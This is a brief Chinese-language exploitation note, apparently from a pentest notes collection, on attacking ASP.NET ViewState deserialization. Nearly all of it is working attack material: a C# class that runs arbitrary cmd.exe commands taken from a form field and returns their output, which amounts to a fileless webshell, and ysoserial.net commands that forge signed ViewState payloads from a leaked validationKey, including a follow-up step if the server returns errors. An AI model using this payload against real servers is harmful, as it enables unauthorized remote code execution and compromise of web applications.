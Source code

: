 # asp.net中ViewState的利用



## 工具

 https://github.com/pwntester/ysoserial.net 



## 条件

获得validationKey,在web.config文件里有

## 利用



```cs
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Form["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}
```





```
ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile
              -c "ExploitClass.cs;./dlls/System.dll;./dlls/System.Web.dll"
              --generator="CA0B0334"
              --validationalg="SHA1"
              --validationkey="B3B8EA291AEC9D0B2CCA5BCBC2FFCABD3DAE21E5"
```



如果页面出现500错误,则发送一次如下viewstates

```
ysoserial.exe -p ViewState -g ActivitySurrogateDisableTypeCheck
              -c "ignore"
              --generator="CA0B0334"
              --validationalg="SHA1"
              --validationkey="B3B8EA291AEC9D0B2CCA5BCBC2FFCABD3DAE21E5"
```





## 参考

 https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/ 

